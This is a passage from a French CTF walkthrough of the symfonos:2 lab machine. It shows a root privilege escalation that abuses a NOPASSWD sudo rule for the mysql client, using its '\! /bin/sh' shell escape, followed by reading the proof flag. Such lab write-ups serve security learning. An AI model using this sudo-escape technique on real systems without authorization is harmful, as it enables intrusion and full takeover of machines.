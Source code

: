 Depuis ce compte on veut exécuter une commande avec les droits root :

```shellsession
cronus@symfonos2:~$ sudo -l
Matching Defaults entries for cronus on symfonos2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cronus may run the following commands on symfonos2:
    (root) NOPASSWD: /usr/bin/mysql
```

Une fonctionnalité du client `mysql` permet d'appeler une commande du shell :

```shellsession
cronus@symfonos2:~$ sudo /usr/bin/mysql
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 31
Server version: 10.1.38-MariaDB-0+deb9u1 Debian 9.8

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> \! /bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
proof.txt
# cat proof.txt

        Congrats on rooting symfonos:2!

           ,   ,
         ,-`{-`/
      ,-~ , \ {-~~-,
    ,~  ,   ,`,-~~-,`,
  ,`   ,   { {      } }                                             }/
 ;     ,--/`\ \    / /                                     }/      /,/
;  ,-./      \ \  { {  (                                  /,;    ,/ ,/
; /   `       } } `, `-`-.___                            / `,  ,/  `,/
 \|         ,`,`    `~.___,---}                         / ,`,,/  ,`,;
  `        { {                                     __  /  ,`/   ,`,;
        /   \ \                                 _,`, `{  `,{   `,`;`
       {     } }       /~\         .-:::-.     (--,   ;\ `,}  `,`;
       \\._./ /      /` , \      ,:::::::::,     `~;   \},/  `,`;     ,-=-
        `-..-`      /. `  .\_   ;:::::::::::;  __,{     `/  `,`;     {
                   / , ~ . ^ `~`\:::::::::::<<~>-,,`,    `-,  ``,_    }
                /~~ . `  . ~  , .`~~\:::::::;    _-~  ;__,        `,-`
       /`\    /~,  . ~ , '  `  ,  .` \::::;`   <<<~```   ``-,,__   ;
      /` .`\ /` .  ^  ,  ~  ,  . ` . ~\~                       \\, `,__
     / ` , ,`\.  ` ~  ,  ^ ,  `  ~ . . ``~~~`,                   `-`--, \
    / , ~ . ~ \ , ` .  ^  `  , . ^   .   , ` .`-,___,---,__            ``
  /` ` . ~ . ` `\ `  ~  ,  .  ,  `  ,  . ~  ^  ,  .  ~  , .`~---,___
/` . `  ,  . ~ , \  `  ~  ,  .  ^  ,  ~  .  `  ,  ~  .  ^  ,  ~  .  `-,

        Contact me via Twitter @zayotic to give feedback!
```

*Publié le 20 février 2023*
